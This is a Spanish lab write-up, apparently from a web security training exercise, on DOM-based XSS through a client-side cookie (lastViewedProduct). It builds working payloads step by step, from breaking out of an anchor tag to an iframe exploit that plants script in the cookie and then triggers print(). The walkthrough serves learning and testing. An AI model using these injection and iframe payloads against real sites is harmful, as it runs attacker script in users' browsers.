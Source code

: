 En este laboratorio trabajamos con una vulnerabilidad de tipo XSS basada en la manipulación de cookies mediante JavaScript en el lado del cliente. La web almacena en una cookie llamada lastViewedProduct la última URL de producto visitada, la cual es luego procesada sin validación.

El ataque consiste en forzar a la víctima a cargar una URL de producto con código malicioso embebido, lo que provoca que dicha URL sea almacenada como cookie. Justo después, la víctima es redirigida a la página de inicio. Al acceder a esa página con la cookie manipulada, se evalúa su contenido y se ejecuta el payload XSS. Con esto conseguimos que la función print() se dispare sin que el usuario sospeche nada

-----


    productId=10&'

Como la URL de last_view_post está dentro de un anchor, podemos escalar del anchor y meter una etiqueta HTML:
    
    productId=10&'><h1>Hola</h1>

Al irnos a Home, setea la nueva url con el hola en html, ahora metemos el alert:

    productId=10&'><script>alert()</script>

```html

<iframe src="https://burpsuite.com/productId=10&'><script>alert()</script>" onload='this.src="https://google.es"'></iframe>   ->(esto lo hará muchas veces, de manera infinita)

Para evitar que haga infinitamente eso, podemos setear un valor de x para que cuando se cumpla 1 sola vez, ya no ejecute la redirecccion:

<iframe src="https://burpsuite.com/productId=10&'><script>alert()</script>" onload='if(!x)this.src="https://google.es";x=1;'></iframe>

<iframe src="https://burpsuite.com/productId=10&'><script>alert()</script>" onload='if(!window.x)this.src="https://google.es";window.x=1;'></iframe>

Entonces primero enviamos a la victima a la raiz para que setee el alert dentro del url:

<iframe src="https://burpsuite.com/productId=10&'><script>alert()</script>" onload='if(!window.x)this.src="https://burpsuite.com/";window.x=1;'></iframe>

<iframe src="https://burpsuite.com/productId=10&'><script>print()</script>" onload='if(!window.x)this.src="https://burpsuite.com/";window.x=1;'></iframe>



```



